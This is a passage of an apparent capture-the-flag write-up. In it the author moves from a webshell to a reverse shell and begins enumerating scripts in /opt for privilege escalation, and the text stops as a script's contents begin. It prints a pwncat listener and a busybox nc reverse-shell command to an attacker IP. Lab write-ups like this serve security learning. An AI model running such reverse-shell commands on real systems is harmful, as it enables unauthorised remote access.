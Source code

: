 ```bash
```
Now we can visit this path and interact with the webshell that we choose (in this case the default one):
	
![webshell](./pic/webshell.png)
	

# Lucien
I like to get a better shell so i started a listener on my local machine with:
```bash
pwncat-cs -lp 5555
```
Then on the webshell i used this reverse-shell:
```bash
busybox nc 10.8.79.118 5555 -e /bin/bash
```

Now i have a more powerfull shell on my terminal so i can continue towards the privesc.<br>
By enumerating a bit the file system<br>
(in fact to be a little more realistic i tried to use linpeas only when i dind't find things manually.)<br>
i found 2 interesting scripts in `/opt` folder:
```bash
ls /opt/
```
output:
```bash
total 16
drwxr-xr-x  2 root   root   4096 Aug 15 12:45 .
drwxr-xr-x 20 root   root   4096 Jul 28 22:35 ..
-rwxrw-r--  1 death  death  1574 Aug 15 12:45 getDreams.py
-rwxr-xr-x  1 lucien lucien  483 Aug  7 23:36 test.py
```
I can read all the scripts, so i started with the one that i could also execute (`test.py`):
```bash
cat /opt/test.py
```
output:
```bash
import requests

```